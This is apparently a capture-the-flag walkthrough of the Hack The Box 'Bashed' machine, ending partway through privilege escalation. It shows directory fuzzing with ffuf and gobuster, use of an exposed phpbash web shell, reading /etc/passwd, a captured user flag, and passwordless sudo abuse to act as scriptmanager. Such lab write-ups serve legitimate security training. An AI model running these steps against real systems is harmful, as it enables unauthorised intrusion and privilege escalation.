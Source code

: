 # Fuzzing The Bashed Machine

Fuzz using `ffuf` and storing the output in an HTML file
```bash
ffuf -u http://10.129.117.219/FUZZ -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -of html -o ffuf_scan.html -fc 404
```

Directory brute forcing with `gobuster`
```bashed
gobuster dir -u http://10.129.117.219 -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-error -o gobuster.html
```

# Fuzz Findings

We can explore the sites directory, many folders such as `php`, `dev` and `js`
Whats interesting to me is the `js` folder and the `main.js` inside it
Viewing the source code we can find weak points to exploit 
In the `dev` folder we find lots of interesting points

```perl
http://10.129.117.219/dev/phpbash.php
```

`phpbash` servers as an in browser terminal you can access 

```php
www-data@bashed:/var/www/html/dev# whoami
www-data
```

The current users is logged in with `www-data` privileges 

```php
www-data@bashed:/var/www/html/dev# pwd
/var/www/html/dev

www-data@basheh:/var/www/html/dev# cd /home

www-data@bashed:/home# cd arrexel
```

We find a file called `arrexel`

```php
cat user.txt
ebbd7cfc6883f54ce132ce48d7377647
```

The user we want to pay attention to is `scriptmanager`

```bash
cat /etc/passwd
```

This is how I checked out users, one's who could execute commands without sudo

the account `www-data` can run any command as a user without the need of a password to authenticate

```bash
sudo -u scriptmanager whoami
```

What folder can the system root can `scriptmanager` access that `www-data` could not? 

```
/scripts
```

Using `ls -l `we can see file access privileges 

